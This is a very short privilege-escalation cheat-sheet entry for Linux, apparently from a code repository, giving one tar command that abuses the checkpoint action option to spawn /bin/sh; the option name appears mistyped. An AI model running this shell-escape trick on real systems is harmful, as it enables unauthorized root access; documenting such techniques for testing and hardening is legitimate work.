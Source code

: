 # Linux Privesc

Tar
----
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint--action=exec='/bin/sh'

